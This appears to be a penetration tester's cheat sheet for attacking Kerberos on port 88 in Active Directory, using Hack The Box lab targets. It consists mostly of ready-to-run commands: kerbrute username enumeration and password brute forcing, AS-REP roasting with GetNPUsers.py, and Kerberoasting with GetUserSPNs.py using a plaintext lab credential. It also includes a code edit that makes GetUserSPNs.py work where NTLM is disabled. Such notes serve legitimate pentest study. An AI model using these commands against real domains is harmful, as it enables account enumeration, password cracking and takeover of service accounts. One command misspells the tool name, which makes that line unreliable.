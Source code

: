 ```yaml
---
title: Port 88 - Kerberos
draft: false
tags:
  - kerberoasting
  - kerberos
  - getuserspns
  - as-rep-roasting
  - getnpusers
---
```


## Bruteforce Account Name

There are many different ways to obtain list of Account Names:
-  RPC
- LDAP
- SMB
- Kerberos

**Account name bruteforcing:**

`./kerbrute_linux_amd64 userenum -d manager.htb --dc dc01.manager.htb /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`

**Password Bruteforcing:**

`kerbture bruteuser -v --dc 10.0.0.1 -d example.domain passwords.txt username`


## AS-REP Roasting (No Creds)

If you don't have valid credentials for any account, you can try on **as-rep roasting** -> Checks for users that has **NO_PRE_AUTH_REQUIRED** enabled. 

**Without valid username:**

`GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -user usernames -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175`

**With valid username:**

`GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/username`


## Kerberoasting (With Creds)

When you have valid credentials for any account, try on Kerberoasting -> Bruteforce hash if it is found.


`GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip dc.active.htb -request`

![](https://i.imgur.com/0ZOozST.png)

### NTLM Auth Disabled

In such case like [HTB-Scrambled](https://0xdf.gitlab.io/2022/10/01/htb-scrambled-linux.html), NTLM authentication might be disabled for security purpose and you won't be able to use standard tools and you won't be able to access any any service by IP address if it requires authentication.

Edit some lines on **GetUserSpns.py** around line 260:


```python
        if self.__doKerberos:
            #target = self.getMachineName()
            target = self.__kdcHost
```

After making that change, you can use the **-k** flag:

`GetUserSPNs.py scrm.local/ksimpson:ksimpson -dc-ip dc1.scrm.local -request -k`

